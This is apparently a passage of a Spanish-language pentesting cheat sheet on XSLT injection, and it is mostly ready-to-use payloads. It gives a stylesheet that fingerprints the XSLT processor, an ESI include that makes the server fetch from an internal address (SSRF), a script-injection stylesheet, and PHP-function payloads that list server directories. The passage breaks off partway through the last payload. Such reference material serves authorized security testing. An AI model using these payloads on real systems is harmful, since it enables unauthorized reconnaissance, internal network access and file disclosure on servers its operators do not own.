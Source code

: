 ## Huella

Sube esto y toma información
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
Version: <xsl:value-of select="system-property('xsl:version')" /><br />
Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
<xsl:if test="system-property('xsl:product-name')">
Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:product-version')">
Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:is-schema-aware')">
Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:supports-serialization')">
Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
</xsl:if>
<xsl:if test="system-property('xsl:supports-backwards-compatibility')">
Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
</xsl:if>
</xsl:template>
</xsl:stylesheet>
```
## SSRF
```xml
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl">
</esi:include>
```
## Inyección de Javascript
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```
## Listado de directorios (PHP)

### **Opendir + readdir**
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
```
